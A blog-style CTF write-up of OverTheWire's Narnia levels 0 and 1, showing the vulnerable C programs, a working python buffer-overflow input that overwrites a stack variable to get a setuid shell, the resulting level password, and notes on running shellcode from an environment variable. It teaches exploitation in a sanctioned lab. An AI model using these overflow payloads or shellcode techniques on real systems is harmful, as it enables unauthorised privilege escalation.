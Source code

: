 ```yaml
---
layout: post
title: Narnia Wargame 0-1 Process
tags: [ctf, shell, c]
---
```


The Narnia wargame can be found at [Overthewire.org](http://overthewire.org/wargames/narnia/). Following are my notes converted into blog form.

## Narnia 0

```shell
student@ubuntu:~$ ssh -p 2226 narnia0@narnia.labs.overthewire.org
narnia0@narnia:~$ ls /narnia
narnia0@narnia:~$ ls -la /etc/narnia_pass/narnia1
-r-------- 1 narnia1 narnia1 11 Nov  9 15:08 /etc/narnia_pass/narnia1
narnia0@narnia:~$ ls -la /narnia
total 116
drwxr-xr-x  2 root    root    4096 Nov  9 15:08 .
drwxr-xr-x 25 root    root    4096 Mar 12 09:58 ..
-r-sr-x---  1 narnia1 narnia0 7568 Nov  9 15:08 narnia0
[...]
```

The first character here ("d" or "-") indicates directory. The next three characters are the permissions of the owner, followed by permissions for the group and permissions for everyone. These are "r"/"w"/"x" for read, write, and execute respectively. 

Of note: here, the narnia0 file has the owner permissions' "x" replaced with "s." This is the sticky bit. It means that if executed, the file will run with owner permissions rather than user permissions. (Think using sudo.)

```shell
narnia0@narnia:~$ cd /narnia
narnia0@narnia:/narnia$ ./narnia0
Correct val’s value from 0x41414141 -> 0xdeadbeef!
Here is your chance: ^C
```

Now that we've tried running the program and seeing where we're allowed input, let's take a look at the source code, which Narnia provides:

```shell
narnia0@narnia:/narnia$ cat narnia0.c
```

```c
/*
    This program is free software; you can redistribute it and/or modify
    it under the terms of the GNU General Public License as published by
    the Free Software Foundation; either version 2 of the License, or
    (at your option) any later version.

    This program is distributed in the hope that it will be useful,
    but WITHOUT ANY WARRANTY; without even the implied warranty of
    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    GNU General Public License for more details.

    You should have received a copy of the GNU General Public License
    along with this program; if not, write to the Free Software
    Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
*/
#include <stdio.h>
#include <stdlib.h>

int main(){
	long val=0x41414141;
	char buf[20];

	printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
	printf("Here is your chance: ");
	scanf("%24s",&buf);

	printf("buf: %s\n",buf);
	printf("val: 0x%08x\n",val);

	if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
		system("/bin/sh");
    }
	else {
		printf("WAY OFF!!!!\n");
		exit(1);
	}

	return 0;
}
```

Another thing to note: I've been informed the "setreuid(geteuid(),geteuid());" portion is a bug-fix to the wargame (in response to a respective security patch to the kernel. Previously, if a running process spawned any more processes, they would run with owner permissions. Now (unless coded otherwise, as in this line), they run with user instead of owner permissions.

The vulnerability here is scanf's read size - it allows writing into buf past buf's actual size. buf here is above val in memory; this means any values written past buf's edge will first overwrite val.

Normally, a buffer overflow like this would be a mistake that allows functionally unlimited overflowing; since this is a deliberately-constructed CTF, it allows only enough "extra" writing to change the target value. ("%24s")

Knowing this, input can be geared to overflow buf and write 0xdeadbeef into val. Of course, this must be written as hex values, not ASCII characters - since there are no ASCII equivalents for some of these values, this can be done by piping a single python command.

```shell
narnia0@narnia:/narnia$ python -c "print '00000000000000000000\xef\xbe\xad\xde'" | ./narnia0
Correct val’s value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: 00000000000000000000ﾭ�
val: 0xdeadbeef
```

"print '0'*20 + '\xef\xbe\xad\xde'" would have been a better way of putting this, but with low values it's basically the same thing. Note that linux is little endian so 0xdeadbeef must be reversed!

This by itself doesn't actually get us anything, though - we successfully exploited the program, as we didn't get a "WAY OFF!!!!" message, but we have no way of sending commands to the shell! To do that we must chain commands on our end:

```shell
narnia0@narnia:/narnia$ (python -c "print '00000000000000000000\xef\xbe\xad\xde'";cat) | ./narnia0
Correct val’s value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: 00000000000000000000ﾭ�
val: 0xdeadbeef

whoami
narnia1
cat /etc/narnia_pass/narnia1
efeidiedae

^C
narnia0@narnia:/narnia$ logout
Connection to narnia.labs.overthewire.org closed.
student@ubuntu:~$
```

And there's our flag!

## Narnia 1
 Moving on to the next challenge now that we have our password flag (sshing as narnia1, etc)...
 
 ```shell
 narnia1@narnia:/narnia$ cat narnia1.c
 ```
 
 ```c
 /*
    This program is free software; you can redistribute it and/or modify
    it under the terms of the GNU General Public License as published by
    the Free Software Foundation; either version 2 of the License, or
    (at your option) any later version.

    This program is distributed in the hope that it will be useful,
    but WITHOUT ANY WARRANTY; without even the implied warranty of
    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    GNU General Public License for more details.

    You should have received a copy of the GNU General Public License
    along with this program; if not, write to the Free Software
    Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
*/
#include <stdio.h>

int main(){
	int (*ret)();

	if(getenv("EGG")==NULL){    
		printf("Give me something to execute at the env-variable EGG\n");
		exit(1);
	}

	printf("Trying to execute EGG!\n");
	ret = getenv("EGG");
	ret();

	return 0;
}
 ```
 
 In this challenge we'll be using environment variables and function pointers. In short, ret is a pointer that will point to code at environment variable EGG; it can then be called and executed as if it were calling a function written in C.
 
 To set an environment variable (and check that it has been set!) the following shell commands should be used:
 
  ```shell
 narnia1@narnia:/narnia$ export EGG=`python -c "print 'system("/bin/sh");'"`
 narnia1@narnia:/narnia$ env | grep EGG
 ```
 
 Of course, the above won't actually work - this print statement isn't actual compiled code, it's ASCII. To properly exploit the second challenge, one needs to insert shellcode, including the setreuid from earlier.
 
 Shellcode can be obtained for various systems from sites like [Shell-storm](http://shell-storm.org/shellcode/). Most shellcodes will try to execute a shell as root, but in our case this isn't necessary - if we check the password file, we're just trying to get narnia2 permissions, user and group 14002. So shellcode will need to be modified to setreuid to (14002, 14002) instead of (0,0).